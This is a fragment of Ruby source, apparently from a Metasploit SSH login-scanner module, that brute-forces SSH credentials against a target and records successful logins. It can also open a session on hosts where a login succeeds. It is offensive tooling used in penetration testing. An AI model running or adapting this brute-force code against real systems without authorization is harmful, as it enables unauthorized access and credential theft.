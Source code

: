 ```ruby
    username: datastore['USERNAME'],
    password: datastore['PASSWORD'],
    )

    scanner = Metasploit::Framework::LoginScanner::SSH.new(
    configure_login_scanner(
        host: ip,
        port: rport,
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['SSH_TIMEOUT'],
        framework: framework,
        framework_module: self,
        skip_gather_proof: !datastore['GatherProof']
    )
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

    scanner.scan! do |result|
    credential_data = result.to_h
    credential_data.merge!(
        module_fullname: self.fullname,
        workspace_id: myworkspace_id
    )
    case result.status
    when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
        credential_data[:private_type] = :password
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        if datastore['CreateSession']
        begin
            session_setup(result, scanner)
        rescue StandardError => e
            elog('Failed to setup the session', error: e)
            print_brute :level => :error, :ip => ip, :msg => "Failed to setup the session - #{e.class} #{e.message}"
        end
        end

        if datastore['GatherProof'] && scanner.get_platform(result.proof) == 'unknown'
        msg = "While a session may have opened, it may be bugged.  If you experience issues with it, re-run this module with"
        msg << " 'set gatherproof false'.  Also consider submitting an issue at github.com/rapid7/metasploit-framework with"
        msg << " device details so it can be handled in the future."
        print_brute :level => :error, :ip => ip, :msg => msg
        end
        :next_user
    when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        vprint_brute :level => :verror, :ip => ip, :msg => "Could not connect: #{result.proof}"
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
        invalidate_login(credential_data)
        :abort
    when Metasploit::Model::Login::Status::INCORRECT
        vprint_brute :level => :verror, :ip => ip, :msg => "Failed: '#{result.credential}'"
        invalidate_login(credential_data)
```